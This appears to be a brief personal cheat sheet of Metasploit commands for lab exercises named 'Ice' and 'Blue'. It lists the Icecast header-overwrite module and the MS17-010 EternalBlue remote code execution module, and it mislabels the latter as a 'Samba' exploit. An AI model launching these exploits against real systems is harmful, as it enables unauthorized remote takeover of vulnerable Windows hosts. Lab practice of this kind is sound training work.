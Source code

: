 # Metasploit-ations

## Ice 
Icecast Header Overwrite

```
use exploit/windows/http/icecast_header
```

## Blue **MS17-010**
Microsoft Samba Share - Remote Code Execution exploit

```
use exploit/windows/smb/ms17_010_eternalblue_win8
```
